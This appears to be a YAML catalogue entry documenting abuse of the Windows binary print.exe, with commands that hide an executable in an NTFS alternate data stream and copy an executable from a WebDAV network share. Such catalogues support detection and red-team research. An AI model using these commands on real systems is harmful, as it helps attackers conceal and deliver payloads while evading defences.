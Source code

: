 ```yaml
---
Name: Print.exe
Description: Download, Copy, Add ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: print /D:C:\ADS\File.txt:file.exe C:\ADS\File.exe
    Description: Copy file.exe into the Alternate Data Stream (ADS) of file.txt.
  - Command: print /D:C:\ADS\CopyOfFile.exe C:\ADS\FileToCopy.exe
    Description: Copy FileToCopy.exe to the target C:\ADS\CopyOfFile.exe
  - Command: print /D:C:\OutFolder\outfile.exe \\WebDavServer\Folder\File.exe
    Description: Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
Full Path:
  - C:\Windows\System32\print.exe
  - C:\Windows\SysWOW64\print.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/Oddvarmoe/status/985518877076541440
  - https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
Notes: Thanks to Oddvar Moe - @oddvarmoe
---
```

